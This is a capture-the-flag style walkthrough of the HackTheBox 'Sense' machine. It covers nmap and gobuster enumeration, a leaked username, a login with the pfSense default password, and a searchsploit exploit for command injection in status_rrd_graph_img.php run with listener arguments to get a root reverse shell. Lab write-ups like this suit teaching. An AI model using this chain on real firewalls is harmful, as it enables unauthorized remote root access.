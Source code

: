 # recon
- nmap
```
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```
- linux like os -> ping ttl
- http://sense.htb give me an error -> 
```
Potential DNS Rebind attack detected, see http://en.wikipedia.org/wiki/DNS_rebinding
Try accessing the router by IP address instead of by hostname.
```
- 200 with login page went access web page by entering IP addr
- /index.php :PF Sense login page
  - defualt admin didnt works [link](https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html)
- /index.html : dragonfly bsd

## gobuster
I use to wordlist this time, the first one I use for big.txt but I didnt get any good hit, I then try with the lowercase meddium and yea I got good hint on 2 .txt files
```console
$ gobuster dir -u https://10.10.10.60/ -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 54 -k

/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/index.html (Status: 200)
/installer (Status: 301)
/interfaces.php (Status: 200)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/wizards (Status: 301)
/wizard.php (Status: 200)
/xmlrpc.php (Status: 200)
/~sys~ (Status: 403)
/changelog.txt
/system-users.txt
```
- /changelog.txt
```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```
okey so 1 vulnerability still exist.

- /system-users.txt
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```
so we get the cresential... but password? company defaults??? I guess it is the defualt password for pf sense which we found in the link above. now try to login with **rohit:pfsense**


Boom we are in!
-systeminfo
```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```
As we are already know from `/changelog.txt`. there is a serious vuln on the firewall which is not patch yet, so let google and find out.


after some googling, I found exploit this version. [link](https://www.exploit-db.com/exploits/43560). so let use searchsploit to get the exploit script and lunch our attack
```
bibo318@parrot:~/HTB/sense$ searchsploit pfSense 2.1.4
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
bibo318@parrot:~/HTB/sense$ searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/HTB/sense/43560.py
```
let check the exploit script
```
bibo318@parrot:~/HTB/sense$ python3 43560.py -h
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME]
                [--password PASSWORD]

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password
```
okey let run it
```
bibo318@parrot:~/HTB/sense$ python3 43560.py --rhost 10.10.10.60 --lhost tun0 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
boom we got shell....... AS ROOT!!!


go grab flags, GLHF